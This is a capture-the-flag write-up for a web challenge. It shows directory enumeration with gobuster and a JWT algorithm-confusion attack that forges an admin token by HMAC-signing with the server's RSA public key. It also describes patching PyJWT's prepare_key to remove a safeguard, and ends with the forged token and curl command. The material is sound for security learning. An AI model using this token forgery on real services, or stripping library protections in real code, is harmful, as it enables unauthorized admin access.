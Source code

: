 # Challenge description

Bruh, Tanjiro messed up BIG TIME. 😭 He hid Goku’s summoning scroll somewhere on this cursed website, and now it’s all broken. 💀 If we don’t find it fast, Goku’s never showing up, and we’re all doomed. No cap, this might be the hardest quest yet. Think you got what it takes? 👀🔥 Can you wield your skills like Tanjiro’s blade and break through the encrypted defenses?

https://tan-je-ro.onrender.com/ 

# Soluce 

I started by looking at the possible directories on the website using gobuster.

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ gobuster dir -u https://tan-je-ro.onrender.com/ -w /usr/share/wordlists/dirb/common.txt -k

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://tan-je-ro.onrender.com/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 200) [Size: 412]
/ADMIN                (Status: 200) [Size: 412]
/Admin                (Status: 200) [Size: 412]
/login                (Status: 200) [Size: 861]
/Login                (Status: 200) [Size: 861]
/public               (Status: 200) [Size: 875]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

When we go to the /admin directory, it say that we need to have a token to access it.

When we go to the /login directory, it gives us a JWT token exemple for a normal user.

```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJhZG1pbiI6ZmFsc2UsIm5hbWUiOiJHdWVzdCIsImlhdCI6MTc0MDkxMjc2NX0.irNHg8Yvzh_KWuQE9OgZr3HdsuOfr-SOhqGlTVEhwqGReCUMSFkVdiF4aaffGhC2r8czRFG2a08QCORU_EY1o6IA_EEKRJsLnQzLV5nS1HKDDMAdVW8-q6Kvu6YXn3lJbaq5i0vPjPdde1UjU59GBkm3FedK6x-kPHkxVd-jNcnRi2rUzcB4ebqDsJF_Fw2xzGwCBNQTyGRHCWzK6rs7bYO_l5XPsXMym8Ssjt6hTBAhd33goJ0Pm7fr9VfaAzEPc1kZP9HCtLLURRc8MwL2PAvHXPjc4X9YW4b59ufXhwRzxQ9o7pZqc-04F2s8H8tb2h6I5CSmUD1_NULd2D7OeA
```

And when we go to the /public directory, it gives us the public key to verify the JWT token.

```
-----BEGIN RSA PUBLIC KEY-----
MIIBCgKCAQEAwcMU3Y6CQyvA87vJRKZomubiceep9YlNdp6y95ICIZ3y7jV3oZyt
b1zfwFJ1p/pdTd7ckOOQVsP6/Y7g6gLa9S8YZmKzy7jU6EnV2XPnXTF287hXasup
OzLd4iAzRw12r9pIQ/Fjum8pQ2LzWEaAmuHfkm1o3C9i8ZsbfvZIw/tAB/qEfh34
dGoVvPsJawF44oEFkAQYlS40FmM1EkNzNmNPtKUXlRrr0be0PTCshUbX7VpGC0b1
9JKb/vB+KGye6yUjLwHKKUHZedHQFMMV9OayOwWSnP9J+9Tq77qyNSeBe6vy6uD1
XPm0mfmUYLJZKy0XqjHHxOB9DjKaecmMoQIDAQAB
-----END RSA PUBLIC KEY-----
```

If we put the JWT on [jwt.io](https://jwt.io/), we can see that:

```
{
  "alg": "RS256",
  "typ": "JWT"

}
{
  "admin": false,
  "name": "Guest",
  "iat": 1740912765
}
```

We can see that the token is signed with the RS256 algorithm. We will use the public key as a secret to sign our own token with the admin field set to true in HS256 algorithm.

The code to do this is [here](tan_je_ro.py).

Be careful, python's JWT library has a security so that it is not possible to use a public key to sign a JWT. So you have to modify 'algorithms.py' of the library, the function 'prepare_key' to remove the security.

The code gives us this token:

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhZG1pbiI6dHJ1ZSwibmFtZSI6ImFkbWluIiwiaWF0IjoxNzQwOTU3NDc3fQ.PPNAmTayT5iC7K8MOVsOPyuajlcevzhmS5cxoyfTu0U
```

We can call the /admin directory with this token and we get the flag.

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ curl "https://tan-je-ro.onrender.com/admin?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhZG1pbiI6dHJ1ZSwibmFtZSI6ImFkbWluIiwiaWF0IjoxNzQwOTU3NDc3fQ.PPNAmTayT5iC7K8MOVsOPyuajlcevzhmS5cxoyfTu0U"
```
